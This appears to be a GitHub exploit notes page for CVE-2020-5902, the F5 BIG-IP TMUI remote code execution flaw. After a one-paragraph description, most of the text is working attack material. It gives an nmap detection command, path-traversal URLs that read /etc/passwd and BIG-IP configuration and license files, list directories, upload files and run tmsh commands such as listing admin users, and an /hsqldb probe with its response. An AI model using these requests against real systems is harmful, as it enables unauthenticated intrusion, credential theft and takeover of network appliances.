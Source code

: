 The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

sudo nmap --script=http-vuln-cve2020-5902.nse -p PORT IP

https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
directoryList

List files within a folder specified through the directoryPath URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/tmp/

fileRead

Read a file content specified through the fileName URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

fileSave

Upload a file specified through the fileName URL parameter and content of the file specified through the content URL parameter, using POST method.

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=test

tmshCmd

Execute predefined (based on their documentation) system commands through the command URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user
